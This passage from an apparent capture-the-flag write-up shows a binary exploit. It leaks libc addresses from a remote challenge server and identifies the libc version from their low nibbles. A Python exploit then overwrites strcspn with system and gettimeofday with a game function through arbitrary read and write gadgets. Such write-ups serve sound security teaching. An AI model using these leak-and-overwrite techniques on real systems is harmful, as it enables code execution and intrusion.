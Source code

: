 When we run it against the remote server, we get

```
0x7016f54d2bd0 (puts)
setbuf 0x7016f54da740
printf 0x7016f54ab0f0
fgets 0x7016f54d0b20
getchar 0x7016f54da0f0
```

Now, we can take the low three nibbles (`bd0`, `740`, etc.) and put them into https://libc.rip.
We choose the low three nibbles because they are unaffected by ASLR, which operates at page-level (2^12B).

This allows us to work out that we are on `libc6_2.39`, and `libcdb` even gives us a nice text file with
all of our offsets!

```
puts 0000000000087bd0
system 0000000000058740
```

## The Final Attack

With our read and write gadgets, writing the attack is quite easy:

```python
def main():
    r = conn()
    r.sendlineafter(b'name: ', b'meow')

    # start a game
    r.sendlineafter(b'option: ', b'1')

    # aslr leak
    localtime = read64(r, -464)
    print(hex(localtime))

    initialize_game = localtime + 0xc72
    print('initialize game: ', hex(initialize_game))

    # libc leak
    puts = read64(r, -448)
    print(hex(puts))

    print('setbuf', hex(read64(r, -448+16*2)))
    print('printf', hex(read64(r, -448+16*3)))
    print('fgets', hex(read64(r, -448+16*7)))
    print('getchar', hex(read64(r, -448+16*8)))

    libc = puts - 0x87bd0
    system = libc + 0x58740
    # system = puts + 0x2f450
    print('system: ', hex(system))

    # write to -368: strcspn
    write64(r, -368, system)
    print('wrote strcspn = ', hex(system))

    # write to -384: gettimeofday
    write64(r, -384, initialize_game)
    print('wrote gettimeofday = ', hex(initialize_game))
```
